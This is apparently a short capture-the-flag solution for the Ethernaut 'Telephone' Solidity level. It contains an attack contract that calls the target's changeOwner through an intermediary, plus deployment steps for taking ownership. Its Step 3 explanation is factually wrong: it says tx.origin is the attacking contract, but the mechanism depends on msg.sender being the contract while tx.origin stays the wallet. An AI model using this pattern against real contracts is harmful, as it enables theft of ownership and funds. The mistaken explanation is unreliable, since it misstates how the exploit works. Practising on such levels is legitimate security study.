 ```shell
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneAttack {

  Telephone telephoneContract;

    constructor(address _address) public {
        telephoneContract = Telephone(_address);
    }

    function attack(address _address) public {
        telephoneContract.changeOwner(_address);
    }
}
```
## Hack: 

Step1:

Deploy w/ ethernaut contract instance address as constructor arg.

Step2:

Call attack function w/ wallet as address.

Step3:

Attack will succeed because tx.origin will be attacking contract address rather than wallet that will take ownership.